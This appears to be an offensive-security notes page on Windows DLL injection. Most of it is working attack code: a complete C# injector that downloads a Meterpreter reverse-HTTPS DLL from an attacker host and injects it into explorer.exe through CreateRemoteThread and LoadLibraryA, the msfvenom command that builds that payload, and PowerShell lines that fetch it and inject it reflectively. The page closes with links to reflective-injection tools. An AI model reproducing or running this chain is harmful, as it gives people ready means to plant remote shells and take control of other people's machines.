 ```yaml
---
description: Inject DLLs into remote process's virtual address space
---
```


# DLL Injectors




## Classic DLL Injection



### C\# Executable

A simple C# DLL injector to explain the basics:

1. Allocate space for the malicious DLL name in remote process's virtual address space.
2. Write the DLL name into the allocated space.
3. Locate the address of the [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in kernel32.dll with `GetModuleHandle` and `GetProcAddress`. Most Windows native DLLs are allocated at the same base address, so the obtained address of `LoadLibraryA` will be the same for the remote process.
4. Invoke `LoadLibraryA` function on the behalf of the remote thread supplying base `LoadLibraryA` address as the *4th* argument of `CreateRemoteThread` and the address of the DLL name to be loaded as the *5th* argument.

All this is needed because `LoadLibrary` functions cannot be invoked natively on a remote process.

{% code title="DLLInjector.cs" %}
```csharp
using System;
using System.Net;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            // Download the malicious DLL
            String dirName = Environment.GetFolderPath(Environment.SpecialFolder.MyMusic);
            String dllName = dirName + "\\met.dll";
            WebClient wc = new WebClient();
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
            wc.DownloadFile("http://10.10.13.37/met.dll", dllName);

            // Get remote process handle
            Process[] pList = Process.GetProcessesByName("explorer");
            int processId = pList.First().Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // Allocate space for the DLL name in remote process's virtual address space and write it
            IntPtr dllNameAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, dllNameAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Locate base address of the LoadLibraryA function in kernel32.dll (this address will be the same for the remote process)
            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            // Invoke LoadLibraryA function in the remote process supplying starting address of the malicious DLL in its (process's) address space
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllNameAddress, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}

{% hint style="warning" %}
According to [this](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c) template that MSF is using to generate a DLL, there's another injection technique (Thread Execution Hijacking) [in the DLL code itself](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c#L115) which is invoked upon `DLL_PROCESS_ATTACH` event. That causes the DLL not to be loaded in the target process memory, but it rather forces new shellcode to be executed by `rundll32.exe` and the malicios process (meterpreter shell, etc.) gets the PID of `rundll32.exe`. It may also result in hanging the parent's process (`explorer.exe` in terms of this example) and crashing it when the shell dies.
{% endhint %}




## Reflective DLL Injection (RDI)

* [https://github.com/stephenfewer/ReflectiveDLLInjection#overview](https://github.com/stephenfewer/ReflectiveDLLInjection#overview)
* [https://github.com/dismantl/ImprovedReflectiveDLLInjection](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
* [https://github.com/Moriarty2016/NimRDI](https://github.com/Moriarty2016/NimRDI)
* [https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/](https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/)
* [https://github.com/Krypteria/AtlasLdr](https://github.com/Krypteria/AtlasLdr)
* [https://oldboy21.github.io/posts/2023/12/all-i-want-for-christmas-is-reflective-dll-injection/](https://oldboy21.github.io/posts/2023/12/all-i-want-for-christmas-is-reflective-dll-injection/)
* [https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/](https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/)



### Invoke-ReflectivePEInjection

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
PS > $bytes = (New-Object Net.WebClient).DownloadData("http://10.10.13.37/met.dll")
PS > Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId (Get-Process explorer).Id
```
